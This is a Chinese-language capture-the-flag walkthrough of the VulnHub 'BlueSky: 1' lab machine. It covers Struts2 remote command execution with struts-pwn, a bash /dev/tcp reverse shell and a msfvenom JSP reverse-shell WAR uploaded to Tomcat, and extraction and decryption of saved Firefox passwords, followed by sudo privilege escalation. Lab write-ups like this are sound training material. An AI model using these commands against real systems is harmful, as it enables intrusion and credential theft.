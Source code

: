 ### About Release

* **Name**: BlueSky: 1
* **Date release**: 10 Dec 2020
* downpload：https://www.vulnhub.com/entry/bluesky-1,623/
* Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

## 一、信息收集

主机发现：

```
nmap -sP 192.168.56.1/24
```

![image-20210126141945664](img/image-20210126141945664.png)

端口扫描：

```bash
nmap -sT -sV -T4 -p- 192.168.56.104
```

![image-20210126142126196](img/image-20210126142126196.png)

8080端口tomcat, 22 ssh端口。

但是没啥漏洞。。。

查阅资料结果是 strtus 漏洞。

```
http://192.168.56.104:8080/struts2-showcase/index.action
```

![image-20210126142501422](img/image-20210126142501422.png)

## 二、漏洞利用

github上找一波工具。

https://github.com/mazen160/struts-pwn

```bash
➜  struts-pwn git:(master) python3 struts-pwn.py -h
usage: struts-pwn.py [-h] [-u URL] [-l USEDLIST] [-c CMD] [--check]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Check a single URL.
  -l USEDLIST, --list USEDLIST
                        Check a list of URLs.
  -c CMD, --cmd CMD     Command to execute. (Default: id)
  --check               Check if a target is vulnerable.
```

![image-20210126142625538](img/image-20210126142625538.png)

```bash
➜  struts-pwn git:(master) python3 struts-pwn.py -u http://192.168.56.104:8080/struts2-showcase/index.action -c id 

[*] URL: http://192.168.56.104:8080/struts2-showcase/index.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=1000(minhtuan) gid=1000(minhtuan) groups=1000(minhtuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

[%] Done.

```

成功远程命令执行，那就 反弹 shell。

kali:

```bash
nc -lvnp 4444
```

靶机：

```bash
python3 struts-pwn.py -u http://192.168.56.104:8080/struts2-showcase/index.action -c "bash -i >& /dev/tcp/192.168.56.102/4444 0>&1"
```

成功反弹 shell.

用户目录下得到`user.txt`

```bash
minhtuan@ubuntu:~$ cat user.txt
cat user.txt
Try your best, you have passed the first challenge, and the last one is for you, root me!
```

接下来寻找 root下的 flag.

寻找 tomcat 密码。

因为web中间件是tomcat，tomcat路径为/usr/local/tomcat，我们可以找到tomcat的用户名密码文件/conf/tomcat-users.xml

```bash
minhtuan@ubuntu:~$ locate users.xml
locate users.xml
/usr/local/tomcat/conf/tomcat-users.xml
```

![image-20210126161826148](img/image-20210126161826148.png)

登录 tomcat ,可上传 war 包，

![image-20210126161929668](img/image-20210126161929668.png)

`msfvenom` 生成 war包，

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=5555 -f war>shell.war
```

kali 开启监听:

```bash
nc -lvnp 5555
```

上传 war 包，然后访问

![image-20210126162412576](img/image-20210126162412576.png)

利用python升级为交互式 shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

在用户根目录下发现mozilla firefox浏览器文件.可以通过这个得到用户名密码记录。

![image-20210126163114591](img/image-20210126163114591.png)

不同版本的Firefox保存密码记录的文件名称不同，在网上找到firefox浏览器存储用户名密码的文件是logins.json（版本号大于等于32.0）或者signons.sqlite（版本号大于等于3.5，小于32.0），可以看[这里](http://kb.mozillazine.org/Profile_folder_-_Firefox).

找到其位置

```bash
minhtuan@ubuntu:~/.mozilla/firefox$ locate logins.json
locate logins.json
/home/minhtuan/.mozilla/firefox/fvbljmev.default-release/logins.json
```

github找解密脚本

https://github.com/lclevy/firepwd

需安装库，但 kali 默认没有 pip3 ，所以安装一下：

```bash
wget https://bootstrap.pypa.io/get-pip.py
python3 get-pip.py
pip3 -V

pip3 install -r requirements.txt
```

靶机开 一个 http 服务

```bash
python3 -m http.server 8001
```

将文件拷贝出来(脚本需要)，kali执行：

```bash
wget http://192.168.56.104:8001/logins.json
wget http://192.168.56.104:8001/key4.db

python3 firepwd.py
```

![image-20210126170858108](img/image-20210126170858108.png)

得到账户密码，

## 三、提权

使用sudo -l进行提权，

![image-20210126171329699](img/image-20210126171329699.png)

```bash
root@ubuntu:~# cat root.txt
cat root.txt
Amazing, goodjob you!
Thank you for going here

SunCSR Team

```

成功通关。

## 四、总结

信息收集 ---> 8080 tomcat  ---> struts 漏洞 ---> 得到 user.txt 

读取配置文件获取tomcat账号密码 ---> 读取 Firefox保存密码记录 ---> sudo -l 提权 ---> 得到 root.txt

